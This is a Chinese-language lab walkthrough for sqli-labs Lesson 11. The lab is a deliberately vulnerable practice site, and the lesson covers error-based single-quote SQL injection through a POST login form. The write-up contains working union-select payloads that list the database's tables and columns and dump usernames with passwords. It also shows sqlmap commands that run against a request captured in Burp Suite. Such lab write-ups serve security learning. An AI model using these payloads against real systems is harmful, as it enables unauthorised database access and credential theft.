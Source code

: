 ```yaml
---
title: sqli-labs lession-11 基于错误的POST单引号字符型注入
date: 2018-09-27 09:13:12
tags:
categories: sql注入
---
```


# sqli-labs lession-11 基于错误的POST单引号字符型注入 #

---

## 登录界面 ##

![1](/img/sql/Lesson-11/1.png)

## 手注 ##

### POST ###

这是一个POST请求,可以输入信息查看一下。

分别输入admimn和aad

![2](/img/sql/Lesson-11/2.png)

POST拿到了我的输入:

![3](/img/sql/Lesson-11/3.png)

hackbar插件勾选Post.自动填充了POST参数。

![4](/img/sql/Lesson-11/4.png)

### 判断类型 ###

那个hackbar在这里不好用,心疼。

![5](/img/sql/Lesson-11/5.png)

返回报错信息,看来单引号是有效果的,添加#注释。

![6](/img/sql/Lesson-11/6.png)

执行成功。接下来的步骤和Lesson-1差不多了。

### 字段数 ###

![7](/img/sql/Lesson-11/7.png)

![8](/img/sql/Lesson-11/8.png)

![9](/img/sql/Lesson-11/9.png)

确定字段数为2。

### 数据库信息 ###

`adminn' union select database(),@@datadir#`

![10](/img/sql/Lesson-11/10.png)

### 获取表 ###

`adminn' union select database(),(select group_concat(table_name,"--") from information_schema.tables where table_schema = database())#`

![11](/img/sql/Lesson-11/11.png)

获取到了表名:emails,referers,uagents,users

### 获取字段 ###

`adminn' union select database(),(select group_concat(column_name,"--") from information_schema.columns where table_name ='users')#`

![12](/img/sql/Lesson-11/12.png)

获取到了字段:id,username,password

### 获取值 ###

`adminn' union select 1,group_concat(username,":",password,"\n") from users#`

![13](/img/sql/Lesson-11/13.png)

## SQLMAP ##

firefox浏览器设置代理

![14](/img/sql/Lesson-11/14.png)

用Burpsuite抓包,确认接口开启

![15](/img/sql/Lesson-11/15.png)

输入任意字符后点击submit,我这里用的都是xxx

![16](/img/sql/Lesson-11/16.png)

Burpsuite抓到包含POST请求的包

![17](/img/sql/Lesson-11/17.png)

按图保存文件

![18](/img/sql/Lesson-11/18.png)

`sqlmap -r sqlpost/post11.txt -p uname --dbs --technique ES --threads 10`

--threads 选择线程数

-p 指定注入的POST参数

--technique ES

E:Error-based   （报错型注入）

S:Starked queries   （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）

![19](/img/sql/Lesson-11/19.png)

`sqlmap -r sqlpost/post11.txt -p uname -D security -T users --columns --dump`

![20](/img/sql/Lesson-11/20.png)
